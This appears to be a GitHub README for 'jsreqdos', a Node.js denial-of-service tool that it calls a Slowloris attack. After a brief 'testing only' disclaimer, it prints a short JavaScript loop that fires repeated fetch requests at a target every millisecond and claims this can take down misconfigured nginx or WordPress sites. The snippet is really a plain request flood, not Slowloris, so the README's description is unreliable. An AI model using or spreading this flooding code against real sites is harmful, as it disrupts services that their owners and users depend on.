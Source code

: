# jsreqdos
Slowloris DOS utility made in nodejs.

## Usage
This is made for testing purpose, and should not be used on foreign resources, as it may cause damage.

This uses slowloris type of attack to send thousands of requests per second.

This should also be taken in consideration by many public sites, as 5 lines of code are enough to take them down.
```
worker = setInterval(()=>{
    for(let i =0;i<threads;i++){
        fetch(target).then(()=>{}).catch(()=>{})
    }
},1)
```
Every incorrectly initiated nginx instance or wordpress website can be overloaded with this.
